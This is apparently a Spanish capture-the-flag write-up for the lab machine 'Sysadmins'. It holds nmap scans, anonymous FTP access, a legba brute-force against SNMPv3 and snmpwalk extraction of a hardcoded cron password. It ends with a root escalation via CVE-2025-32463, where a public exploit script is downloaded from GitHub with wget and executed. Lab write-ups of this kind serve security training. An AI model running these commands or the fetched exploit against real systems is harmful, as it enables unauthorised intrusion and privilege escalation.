

# Writeup: Sysadmins (HackSmarter — Medium)

Sysadmins es una máquina **Media** que simula un entorno Linux dentro de una red interna corporativa. El escenario asume que el atacante ya ha comprometido un punto de entrada en dicha red y puede acceder a los servicios internos. El recorrido comienza con la enumeración de puertos que revela un servidor FTP con acceso anónimo y un archivo que indica una filtración de credenciales en Pastebin. A partir de esa lista de contraseñas y la enumeración del sitio web para obtener nombres de usuarios, se realiza un **ataque de diccionario cruzado** (brute force con listas de credenciales) contra el servicio SNMP accesible en el puerto 161/UDP. Al obtener acceso SNMP como el usuario `waserby`, se enumeran los procesos del sistema y se descubren credenciales hardcodeadas en una tarea programada. Estas credenciales permiten acceder por SSH como `helena`. Finalmente, se explota la vulnerabilidad **CVE‑2025‑32463** en Sudo para escalar a root y obtener la bandera final.

---

## 🎯 Objetivo

El objetivo de esta máquina es realizar una prueba de penetración contra un servidor Linux interno. La tarea consiste en enumerar exhaustivamente el sistema, identificar todas las vulnerabilidades y, si es posible, elevar los privilegios a `root` para demostrar el impacto del compromiso.

---

## Fase 1: Reconocimiento

### Escaneo de puertos

Realizamos un escaneo completo de puertos con Nmap para descubrir los servicios accesibles desde la red interna:

```bash
sudo nmap -sS -p- --min-rate 500 -vv -Pn -n 10.1.91.20 -oG allPorts
```

**Resultado:**

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 62
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

**Explicación de parámetros:**

- `-sS`: Escaneo SYN (sigiloso), rápido y sin completar la conexión TCP.
- `-p-`: Escanea todos los 65535 puertos.
- `--min-rate 500`: Fuerza a Nmap a enviar al menos 500 paquetes por segundo, acelerando el escaneo.
- `-vv`: Verbosidad aumentada para ver progreso en tiempo real.
- `-Pn`: Omite la fase de descubrimiento de hosts (asume que la máquina está activa).
- `-n`: Omite la resolución DNS para evitar demoras.
- `-oG allPorts`: Guarda los resultados en formato "grepable" para procesarlos fácilmente.

El escaneo revela tres puertos abiertos: **21 (FTP)**, **22 (SSH)** y **80 (HTTP)**.

### Enumeración de servicios

Realizamos un escaneo de servicios y versiones para obtener más información:

```bash
nmap -sVC -p 21,22,80 10.1.91.20 -oN targeted
```

**Resultados clave:**

```
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             742 Jul 13 12:39 data_breach_notification.txt
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Sysadmins - System Administration Services
```

**Observaciones clave:**

- **FTP anónimo habilitado**: vsftpd 3.0.5 permite conexiones anónimas (`Anonymous FTP login allowed`). Hay un archivo `data_breach_notification.txt`.
- **SSH**: OpenSSH 9.6p1 en Ubuntu.
- **HTTP**: Servidor web nginx 1.24.0 con título "Sysadmins - System Administration Services".

---

## Fase 2: Enumeración del servicio FTP

### 2.1 ¿Qué es el acceso anónimo en FTP?

El **FTP anónimo** permite a cualquier usuario conectarse al servidor sin necesidad de proporcionar credenciales, utilizando el nombre de usuario `anonymous` y cualquier contraseña (normalmente se usa un correo electrónico como contraseña). Aunque es útil para distribuir archivos públicos, es un riesgo de seguridad si el servidor contiene información sensible. En este caso, el archivo `data_breach_notification.txt` es un ejemplo de esta mala práctica.

### 2.2 Conexión y descarga del archivo

Nos conectamos al servidor FTP con el usuario `anonymous` y descargamos el archivo:

```bash
ftp 10.1.91.20
```

```bash
Connected to 10.1.91.20.
220 (vsFTPd 3.0.5)
Name (10.1.91.20:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61843|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             742 Jul 13 12:39 data_breach_notification.txt
226 Directory send OK.
ftp> get data_breach_notification.txt
```

**Contenido del archivo:**

```
Hi team,

We are writing to inform you of a recent data breach that may have affected some of your information.

Last week, a threat actor accessed our systems after compromising a vulnerable web application and exfiltrated some users' passwords, along with usernames and emails.

We strongly recommend that you change your password as soon as possible if your details appear in the data leak published by the attacker at https://pastebin.com/mqPMU1cF.

[...]
```

**Hallazgo crítico:** El archivo menciona una filtración de credenciales publicada en Pastebin. Accediendo a la URL `https://pastebin.com/mqPMU1cF` encontramos una lista de contraseñas. Las guardamos en un archivo `passwords.txt`.

---

## Fase 3: Enumeración del sitio web

### 3.1 Exploración del sitio

El puerto 80 aloja un sitio web con el título "Sysadmins - System Administration Services". La página principal describe los servicios de la empresa.

### 3.2 Enumeración de páginas

El sitio incluye una página `/team.html` donde se presentan los miembros del equipo:

```
waserby
helena
peter
```



**Hallazgo:** Obtenemos tres nombres de usuario potenciales: `waserby`, `helena` y `peter`. Los guardamos en `users.txt`.

---

## Fase 4: Enumeración de SNMP

### 4.1 ¿Qué es SNMP?

**SNMP (Simple Network Management Protocol)** es un protocolo de red utilizado para la gestión y monitorización de dispositivos en redes IP. Permite a los administradores consultar y configurar dispositivos como servidores, routers, switches, etc. La versión 3 (SNMPv3) añade autenticación y cifrado, pero si las credenciales son débiles o se reutilizan, un atacante puede obtener información sensible del sistema.

### 4.2 Escaneo de puertos UDP

Dado que el escaneo TCP no mostró SNMP (que usa UDP), realizamos un escaneo de puertos UDP para identificar servicios adicionales accesibles desde la red interna:

```bash
sudo nmap -sU --top-ports 1000 10.1.91.20 -oG allPortsUDP
```

**Resultado:**

```
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp
```

El puerto 161/UDP está abierto, indicando que el servicio SNMP está accesible.

### 4.3 Obtención de información de SNMP

Usamos Nmap para obtener detalles del servicio SNMP:

```bash
nmap -sU -p 161 --script snmp-info -sV 10.1.91.20
```

**Resultado:**

```
PORT    STATE SERVICE VERSION
161/udp open  snmp    net-snmp; net-snmp SNMPv3 server
```

### 4.4 Ataque de diccionario cruzado contra SNMP

**¿Qué es un ataque de diccionario cruzado?**

En este ataque, el atacante utiliza dos listas: una de usuarios y otra de contraseñas. El objetivo es probar **todas las combinaciones posibles** entre ambas listas (usuario₁ + contraseña₁, usuario₁ + contraseña₂, ..., usuario₂ + contraseña₁, etc.). Esto se diferencia del **Password Spraying**, donde se prueba una o un conjunto pequeño de contraseñas comunes contra **muchos usuarios** (usuario₁ + contraseña₁, usuario₂ + contraseña₁, usuario₃ + contraseña₁, etc.), con el objetivo de evitar bloqueos por múltiples intentos fallidos en una misma cuenta.

En este caso, disponemos de una lista de nombres de usuarios (obtenida del sitio web) y una lista de contraseñas (extraída de Pastebin). Utilizamos `legba` para realizar el ataque de diccionario cruzado contra el servicio SNMPv3:

```bash
legba snmp3 --target 10.1.91.20 --username users.txt --password passwords.txt
```

**Resultado:**

```
[INFO ] authenticated with protocol=Md5, username=waserby, password=butterfly, walking SNMP tree (max 25 OIDs)...
```

El ataque ha tenido éxito. El usuario `waserby` tiene la contraseña `butterfly`.

**Explicación del éxito:** La combinación de nombres de usuarios obtenidos del sitio web con las contraseñas filtradas permitió encontrar una coincidencia. Esto demuestra que las contraseñas filtradas seguían siendo válidas y que el usuario `waserby` no había cambiado su contraseña después de la filtración.

### 4.5 Extracción de información de SNMP

Usamos `snmpwalk` para recorrer el árbol MIB del agente SNMP y extraer toda la información accesible con las credenciales obtenidas:

```bash
snmpwalk -v3 -u waserby -A butterfly -a MD5 -l authNoPriv 10.1.91.20
```

**Resultados clave:**

```
iso.3.6.1.2.1.25.4.2.1.5.3938 = STRING: "-c sshpass -p 'PerfectIsTheEnemyOfDone223!' ssh helena@sysadmins; sleep 60"
```

**Explicación:** En la salida del comando, encontramos una línea que corresponde a un proceso en ejecución. El OID `1.3.6.1.2.1.25.4.2.1.5` forma parte de la tabla de procesos del sistema. El valor es una cadena que muestra el comando completo de un proceso `cron` que ejecuta `sshpass` con una contraseña hardcodeada para conectar por SSH al usuario `helena`.

**Hallazgo crítico:** Las credenciales para el usuario `helena` son:

- **Usuario:** `helena`
- **Contraseña:** `PerfectIsTheEnemyOfDone223!`

---

## Fase 5: Acceso SSH

Con las credenciales obtenidas, nos conectamos por SSH como `helena`:

```bash
ssh helena@10.1.91.20
```

```bash
helena@sysadmins:~$ id
uid=1001(helena) gid=1001(helena) groups=1001(helena)
helena@sysadmins:~$ cat user.txt
[REDACTED]
```

Obtenemos la **flag de usuario**.

---

## Fase 6: Escalada a root (CVE‑2025‑32463)

### 6.1 Verificación de la versión de Sudo

Comprobamos la versión de Sudo instalada:

```bash
helena@sysadmins:~$ sudo -V
Sudo version 1.9.16p2
```

La versión **1.9.16p2** es vulnerable a **CVE‑2025‑32463** (afecta a Sudo desde la versión 1.9.14 hasta la 1.9.17).

### 6.2 Descripción de la vulnerabilidad

**CVE‑2025‑32463** es una vulnerabilidad crítica de escalada de privilegios locales en la utilidad Sudo. Tiene una puntuación CVSS de **9.3** y permite que cualquier usuario local sin privilegios previos obtenga acceso total como `root`.

**Mecanismo técnico del fallo:**

1. La opción `--chroot` (o `-R`) de Sudo permite cambiar el directorio raíz del sistema a una ruta proporcionada por el usuario.
2. Al ejecutar `sudo -R /ruta/controlada bash`, Sudo realiza el `chroot` antes de completar la validación de su configuración interna.
3. Dentro del entorno `chroot`, Sudo intenta leer el archivo `/etc/nsswitch.conf` para resolver nombres de usuarios.
4. Como el atacante controla el directorio `chroot`, puede proporcionar un archivo `nsswitch.conf` malicioso que indique que se debe cargar una librería compartida (`.so`) desde una ruta también controlada por el atacante.
5. Sudo, ejecutándose como `root`, carga esa librería maliciosa y ejecuta el código del atacante con privilegios elevados.

**Impacto:** La vulnerabilidad no requiere que el usuario esté en el archivo `/etc/sudoers`. El comportamiento por defecto de Sudo es vulnerable, lo que facilita su explotación.

### 6.3 Explotación

Clonamos y ejecutamos un exploit público para CVE‑2025‑32463:

```bash
helena@sysadmins:~$ wget https://raw.githubusercontent.com/pr0v3rbs/CVE-2025-32463_chwoot/main/sudo-chwoot.sh
helena@sysadmins:~$ chmod +x sudo-chwoot.sh
helena@sysadmins:~$ ./sudo-chwoot.sh
```

```bash
woot!
root@sysadmins:/# id
uid=0(root) gid=0(root) groups=0(root),1001(helena)
root@sysadmins:/# cat /root/root.txt
[REDACTED]
```

Obtenemos la **flag de root**.

---

## 📌 Conclusión

Sysadmins es una máquina **Media** que combina:

1. **Enumeración de puertos** y descubrimiento de servicios accesibles desde la red interna: FTP, SSH y HTTP.
2. **Acceso FTP anónimo** y extracción de un archivo que contiene un enlace a una filtración de credenciales en Pastebin.
3. **Enumeración del sitio web** para obtener nombres de usuarios (`waserby`, `helena`, `peter`).
4. **Ataque de diccionario cruzado contra SNMPv3** utilizando las listas de usuarios y contraseñas, obteniendo acceso como `waserby`.
5. **Extracción de información de SNMP** mediante `snmpwalk`, descubriendo credenciales hardcodeadas para el usuario `helena`.
6. **Acceso SSH** como `helena` y obtención de la flag de usuario.
7. **Escalada a root** mediante la explotación de **CVE‑2025‑32463** en Sudo.

---

## 📚 Lecciones aprendidas

1. **El acceso anónimo en FTP es un riesgo de seguridad crítico**  
   El servidor FTP permitía conexiones anónimas y contenía un archivo con información sensible sobre una filtración de datos. Los servidores FTP no deben permitir acceso anónimo si no es estrictamente necesario, y nunca deben contener información confidencial.

2. **La enumeración del sitio web es fundamental**  
   La página `/team.html` reveló nombres de usuarios que fueron clave para el ataque de diccionario cruzado. Siempre se debe explorar a fondo el contenido de los sitios web en busca de información que pueda ser reutilizada.

3. **Las filtraciones de credenciales en Pastebin son un vector de ataque real**  
   Los atacantes utilizan plataformas públicas como Pastebin para compartir credenciales filtradas. Los equipos de seguridad deben monitorizar estas fuentes para detectar si sus credenciales han sido expuestas.

4. **SNMP accesible en la red interna con credenciales filtradas es un peligro**  
   El servicio SNMPv3 estaba disponible desde cualquier host de la red y las credenciales de `waserby` estaban en la filtración, lo que permitió acceder y enumerar procesos del sistema. SNMP debe estar restringido a direcciones IP específicas (solo servidores de monitorización) y sus credenciales deben ser rotadas periódicamente.

5. **Las credenciales hardcodeadas en tareas programadas son una vulnerabilidad grave**  
   La contraseña de `helena` estaba en texto plano en un comando de `cron` visible a través de SNMP. Nunca se deben almacenar credenciales en texto plano en scripts.

6. **La actualización de sistemas es esencial, especialmente para CVEs públicos**  
   La versión de Sudo era vulnerable a CVE‑2025‑32463, una vulnerabilidad con exploit público. Mantener los sistemas actualizados con los últimos parches de seguridad es una práctica obligatoria.

7. **La enumeración de procesos a través de SNMP puede revelar información sensible**  
   `snmpwalk` permitió ver el comando completo de un proceso `cron`. Los procesos en ejecución no deben contener secretos, y los comandos deben ser revisados para evitar la exposición de credenciales.
